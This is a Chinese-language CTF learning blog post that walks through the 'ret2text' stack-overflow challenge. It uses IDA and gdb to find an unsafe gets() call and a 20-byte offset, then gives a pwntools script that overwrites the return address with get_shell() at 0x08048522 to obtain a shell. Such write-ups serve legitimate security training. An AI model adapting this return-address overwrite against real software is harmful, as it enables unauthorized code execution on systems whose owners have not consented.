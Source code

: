 ```yaml
---
layout:     post
title:      pwn学习（一）：栈溢出覆盖返回地址
subtitle:   利用栈溢出获取控制权
date:       2021-08-07
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - pwn
---
```

# 栈溢出覆盖返回地址 #


## ret2text题目分析 ##

将文件ret2text拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/07/5DFHOYzJjEMqRpt.png)

看到可以的函数vulnerable()，跟进查看：

![2.PNG](https://i.loli.net/2021/08/07/nEvxPSeLVlBYT9U.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

继续寻找能够利用的跳转地址，发现程序中包含get_shell()函数，跟进：

![3.PNG](https://i.loli.net/2021/08/07/J6ucoV7dN4yfRMS.png)

![4.PNG](https://i.loli.net/2021/08/07/GOHkcoy9vKeudPp.png)

刚好是能够获取目标系统的shell函数，入口地址为0x08048522，将返回地址覆盖为入口地址即可成功获取shell
在Ida中显示函数vulnerable()的buffer字符串与ebp的距离为10h，栈中返回地址前需要填充10h(与ebp距离) + 4(ebp)大小的字符串也就是"AAAA" * 4 + "BBBB"，最后加上get_shell()的入口地址0x08048522。

gdb动态调试验证：

跟进vulnerable()函数，输入字符串AAAA后查看栈中情况：

![5.PNG](https://i.loli.net/2021/08/07/iBRWqTX86PlJdGv.png)

![6.PNG](https://i.loli.net/2021/08/07/BqTnkwOFS8pX7VE.png)

可以看到从字符串起止地址覆盖到返回地址总共需要20个字符，与实际情况相符。

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2text")

#接受程序的一行打印
io.recvline()

#构造覆盖返回地址的字符串，注意要将数据转为字节的形式
overflow = b'AAAA' * 5 + p32(0x8048522)

#发送构造的数据
io.sendline(overflow)

#获取shell交互权限
io.interactive()

```

运行脚本成功获取shell权限
![7.PNG](https://i.loli.net/2021/08/07/vStumLenk1B2C4Z.png)



